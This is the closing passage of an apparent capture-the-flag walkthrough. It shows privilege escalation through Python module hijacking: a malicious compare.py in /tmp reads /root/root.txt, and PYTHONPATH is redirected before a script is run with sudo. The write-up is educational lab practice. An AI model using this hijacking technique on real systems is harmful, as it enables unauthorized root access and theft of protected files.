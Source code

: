 We can create a malicious one that will read the root flag:
```python
#!/usr/bin/env python3
import sys

def Str(a, b, c):
    try:
        with open('/root/root.txt', 'r') as f:
            flag = f.read().strip()
        return flag
    except Exception as e:
        return "Error reading flag: {}".format(e)

# Bind the module itself to a variable named 'compare'
compare = sys.modules[__name__]
```

Call this file `compare.py`.

In that directory we do not have write permissions, we can make it in the `/tmp`.

Now we can change an env variable to point to our file:
```bash
export PYTHONPATH=/tmp
```

Then we can run it:
```bash
sudo /usr/bin/python3 /opt/development/test_module.py
```

And we successfully got the root flag:
--> REDACTED

<br/>
<br/>

## Conclusion
Congratulations you have successfully practiced and exploited different Python related vulnerabilities, to both get initial access and escalate your privileges.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
